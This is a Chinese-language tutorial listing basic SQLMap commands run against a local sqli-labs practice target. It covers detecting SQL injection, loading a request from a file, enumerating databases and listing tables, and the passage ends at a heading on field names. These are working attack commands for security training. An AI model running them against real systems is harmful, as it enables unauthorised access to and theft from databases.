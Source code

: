 #### SQLMap基础命令

1. **判断是否存在注入**

   ```
   python2 sqlmap.py -u http://192.168.163.132:2334/Less-1/?id=1
   ```

   注意：当注入点后面的参数大于两个时，需要加双引号

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1&uid=2"
   ```

   ![image-20210312140034038](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312140034038.png)

   

2. **判断文本中的请求是否存在注入**

   SQLMap可以从文件中加载HTTP请求，这样就可以不设置其他参数(如 cookie、POST数据等)，txt文件中的内容为Web数据包。

   例如这个demo1.txt文件就可用作文本请求：

   ![image-20210312135845867](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312135845867.png)

   **-r一般在cookie注入时使用：**

   ```
   python2 sqlmap.py -r demo1.txt
   ```

   

3. **查询当前用户下的所有数据库**

   该命令是确定网站存在注入后，用于查询当前用户下的所有数据库；

   如果当前用户**有权限读取**包含所有数据库列表信息的表，使用该命令就可以列出**所有数据库**。

   ```
   python2 sqlmap.py -u http://192.168.163.132:2334/Less-1/?id=1 --dbs
   ```

   ![image-20210312141151239](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312141151239.png)

   

4. **获取数据库中的表名**

   该命令的作用是查询完数据库后，查询指定数据库中所有的表名；

   如果在该命令中不加入-D参数来指定某一个具体的数据库，那么SQLMap会列出数据库中所有库的表；

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" -D security --tables
   ```

   ![image-20210312141620293](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312141620293.png)

   

5. **获取表中的字段名**
